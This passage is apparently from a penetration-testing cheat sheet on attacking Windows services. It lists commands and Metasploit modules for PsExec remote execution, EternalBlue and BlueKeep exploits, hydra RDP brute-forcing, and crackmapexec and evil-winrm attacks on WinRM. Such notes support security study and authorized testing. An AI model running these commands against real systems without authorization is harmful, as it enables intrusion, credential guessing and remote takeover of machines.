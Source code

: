 #### Using PsExec

A valid user account is needed in order to perform the attack.

`psexec.py <user>@<ip> <command_to_execute>`

#### Using Metasploit

`windows/smb/psexec` module to exploit PsExec

#### SMB EternalBlue

- `nmap -Pn -sV -O <ip>`
- `nmap -Pn -p 445 --script smb-vuln-ms17-010 <ip>`
- `windows/smb/ms17_010_eternalblue` or using eternal blue AutoBlue [exploit from GitHub](https://github.com/3ndG4me/AutoBlue-MS17-010)

### Exploiting RDP 3389/other

It's necesary to get valid user credentials.

#### RDP scanner

`auxiliary/scanner/rdp/rdp_scanner` metasploit module which is usefull when RDP is configured in other port

#### Using hydra to bruteforce

`hydra -L <path_to_user_dict> -P <path_to_passw_dict> rdp://<ip> -s <port>` 

#### RDP BlueKeep

`windows/rdp/cve_2019_0708_bluekeep_rce` this module is used to exploit bluekeep vulnerabilty

### Exploiting WinRM 5985/5986

The tools used for exploiting WinRM service are `crackmapexec` to bruteforce on Win-RM and `evil-winrm` to get a command session by providing a hash to authenticate.

#### Bruteforcing with crackmapexec

- `crackmapexec <protocol> <ip> -u <user_dict> -p <pass_dict>` will perform a bruteforce attack
- `crackmapexec <protocol> <ip> -u <user> -p <pass> -x "<command>"` will execute a command

#### Getting cmd session with evil-winrm

`evil-winrm.rb -u <user> -p <password> -i <ip>`

#### Using metasploit

`windows/winrm/winrm_script_exec`

## Privilege Escalation

### Windows Kernel Exploits
